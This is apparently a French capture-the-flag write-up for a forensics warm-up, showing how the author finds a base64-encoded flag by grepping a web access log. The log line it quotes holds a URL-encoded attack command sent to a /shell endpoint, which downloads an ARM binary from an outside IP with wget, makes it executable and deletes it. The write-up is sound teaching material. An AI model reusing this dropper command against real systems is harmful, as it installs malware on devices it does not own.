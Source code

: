 ## WUP : Histoire sans fin

### Partie 1 

Dans cette première partie on cherche un flag qui resemble à `FCSC{...`. Les logs montrent un échange de trames qui semblent être des requêtes HTTP. Dans ce type de requêtes, l'encodage base64 peut être utilisé pour encoder les body parameters.  

Mon idée à donc été de chercher l'encodage base64 de FCSC pour le grep dans le fichier de logs.

```bash
$ echo "FCSC{" |base64
RkNTQ3sK
$ more access.log | grep RkNTQ3sK
# Rien, mais j'ai pas encodé tout le flag
# c'est possible que la racine reste la même
# j'ai donc un peu racourci
$ more access.log | grep RkNTQ3
185.150.190.103 - - [13/Feb/2020:06:12:41 +0000] "GET /shell?cd%20/tmp%20%7C%7C%20cd%20/var/run%20%7C%7C%20cd%20/mnt%20%7C%7C%20cd%20/root;%20wget%20http:/%5C/190.115.18.86/b/arm7;chmod%20777%20arm7;echo%20-n%20%22RkNTQ3tDK3o2aUZYbXRyS0pjZUF9%22%20%7C%20base64%20-d%20%26%26%20rm%20-rf%20arm7 HTTP/1.1" 200 27 "-" "python-requests/2.22.0"
# Bingo on trouve quelque chose d'étrange
```

On tombe sur une requête bizarre qui semble ouvrir un shell, se déplacer dans /tmp/var/run, monter un répertoire et télécharger un binaire... Quelque chose de suspect en somme. Mais à la fin on remarque cette ligne :`echo%20-n%20%22RkNTQ3tDK3o2aUZYbXRyS0pjZUF9%22%20%7C%20base64%20 ...` **qui contient notre pattern ET base64...**

Alors ...
```bash
echo "RkNTQ3tDK3o2aUZYbXRyS0pjZUF9" | base64 -d
FCSC{........} # On trouve le flag :)
```